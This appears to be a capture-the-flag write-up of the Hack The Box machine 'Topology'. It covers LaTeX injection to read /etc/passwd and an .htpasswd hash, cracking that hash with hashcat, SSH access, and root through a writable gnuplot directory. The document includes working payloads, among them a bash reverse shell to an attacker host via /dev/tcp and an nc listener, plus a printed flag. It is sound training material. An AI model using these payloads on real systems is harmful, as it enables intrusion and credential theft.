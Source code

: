 ```yaml
---
title: "Topology HTB"
date: 2023-10-06 00:00:00 +0800
categories: [Hack The Box]
tags: [HacktheBox]
---
```


# Topology HacktheBox
[HackTheBox-Topology-Easy](https://app.hackthebox.com/machines/Topology)
## Nmap

```nmap
nmap -sVC 10.10.11.217
```


```
PORT      STATE    SERVICE  VERSION
22/tcp    open     ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp    open     http     Apache httpd 2.4.41 ((Ubuntu))
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE  TIME              FILENAME
| -     2023-01-17 12:26  demo/
| 1.0K  2023-01-17 12:26  demo/fraction.png
| 1.1K  2023-01-17 12:26  demo/greek.png
| 1.1K  2023-01-17 12:26  demo/sqrt.png
| 1.0K  2023-01-17 12:26  demo/summ.png
| 3.8K  2023-06-12 07:37  equation.php
| 662   2023-01-17 12:26  equationtest.aux
| 17K   2023-01-17 12:26  equationtest.log
| 0     2023-01-17 12:26  equationtest.out
| 28K   2023-01-17 12:26  equationtest.pdf
|_
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index of /
1056/tcp  filtered vfo
4006/tcp  filtered pxc-spvr
9876/tcp  filtered sd
50800/tcp filtered unknown
63331/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> After access the web page on port 80, found another end point, http://latex.topology.htb/equation.php which could not be resolved.
> Add the 10.10.11.217 with latex.topology.htb in /etc/host. The page function is to generate a math equation from latex.


![Image](https://github.com/user-attachments/assets/de386ba7-356c-4bb6-805c-5cee23d68e26)

> Then, try to access the root page http://latex.topology.htb where we found directory listing.

![Image](https://github.com/user-attachments/assets/8d3ee5f9-e877-4b18-82e9-645ce01a77b8)

## Latex Injection

> Refer on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection#cross-site-scripting) and [Exploit Notes](https://exploit-notes.hdks.org/exploit/web/security-risk/latex-injection/) , and try all payload to read a file like /etc/passwd.
> When using a common injection like `\input{/etc/passwd}` the page will print us with `Illegal command detected, sorry`.
> From the directory listing we could read the listed file and this is the content of `equationtest.tex` file.

```tex
\documentclass{standalone}
\input{header}
\begin{document}

$ \int_{a}^b\int_{c}^d f(x,y)dxdy $

\end{document}
```

> From the file above, we chose to use a payload below from [Exploit Notes](https://exploit-notes.hdks.org/exploit/web/security-risk/latex-injection/) .

```tex
$\lstinputlisting{/etc/passwd}$
```

> We found out there are 2 user in the box, `root` and `vdaisley`.
> Next, we try to read other files such as rsa key in ssh folder of `vdaisley` user, however there is no such file. Move on, we try to fuzz the file with various wordlist such from [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt) and [OneListForAll](https://github.com/six2dez/OneListForAll/blob/main/dict/linux_long.txt). 

>  After a while, we try to access `/etc/apache2/sites-available/000-default.conf` file and found out there are other subdomain hosted on the server using VHOST which are `dev` and `stats`.
> Stats website just shows the server stats, dev website on the other hand required us to pass username and password to enter it. We know the username is `vdaisley`, now we need to find the password.

![Image](https://github.com/user-attachments/assets/a7566d04-e1dd-4ae7-a217-8201db6eb76b)

> As we know usually there is /etc/apache2/.htpasswd file on apache ubuntu server. If you check the contents of the file, it will contain the username and the encrypted password for each record.

> However, there is no such file in the target machine. Try to read /var/www/vdaisley/.htpasswd file and we will get the vdaisley password hash. Now we can try to crack the hash, but need to know the hash type first.

![Image](https://github.com/user-attachments/assets/d140eebf-bdab-48e5-b56c-1f050d8ae927)

![Image](https://github.com/user-attachments/assets/8825e87d-a093-4f58-99a5-fc3d2f627f51)

> It is a apache md5 hash, now we can crack the hash using hashcat with payload below.

```
hashcat -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

> We got the cracked hash. Use it with `vdaisley` username to login on the dev.topology.htb.

![Image](https://github.com/user-attachments/assets/da97918b-8005-42e4-82c1-1cf8680f7409)

> Remember when we scan the host, we found another port open which is port 22 SSH. We can use the credential found before to access the SSH. 
> Then we will found a user.txt on the vdaisley directory which is our user flag `177417ad1d95bb7225a740d31e24255e`.

## Privilege Escalation

> Usually we will use linpeas on the target machine to find a possible endpoint for us to do privilege escalation.
> First download linpeas.sh on [PEASS-ng](https://github.com/carlospolop/PEASS-ng/releases/tag/20231002-59c6f6e6) and put anywhere you want.
> Then, up a local web server on port 8000 using python with command below.

```
python3 -m http.server
```

> Now we can go to the target machine and pull the linpeas from our local server with command below.

```
wget 10.10.14.47:8000/linpeas.sh
```

> Then, add executable permission on the `linpeas.sh` with `chmod +x linpeas.sh`.
> After execute it, we found some interesting writable files on the target machine.

![Image](https://github.com/user-attachments/assets/ad40be6b-b127-4f51-a3a2-c12d9f5d56bf)

> The `/opt/gnuplot` seems exploitable and fyi In Linux, the `/opt` directory is a standard directory in the file system hierarchy. It is typically used for installing optional or add-on software packages that are not part of the core operating system. As you might have guessed by now, `opt` stands for `optional.`

> Refer here for the gnuplot exploit [Gnuplot Privilege Escalation](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/) .
> Now go to `/opt` directory and check the `gnuplot` directory permission with `ls -al`.
> The directory is owned by root user and root group, however others are able to write on the directory.
> Now we can use a payload on the exploit-notes to exploit the gnuplot. 

> First create a file named `test.plt` on the `gnuplot` directory with command below.
```
touch gnuplot/test.plt
```

> Then edit the test.plt and insert our payload to gain reverse shell to our own machine using vim `vi gnuplot/test.plt`. The payload is like below.

```
system "whoami" # Reverse shell system "bash -c 'bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1'"
```

> Save it and create a listener on your machine with command below.

```
nc -nvlp 4444
```

> The `test.plt` will be executed automatically as there is a scheduler to handle it.
> Lastly, after the reverse shell has been spawned, `cat root.txt` to capture the FLAG.

![Image](https://github.com/user-attachments/assets/59905ba9-0d45-4897-9129-04a8c0c9236d)
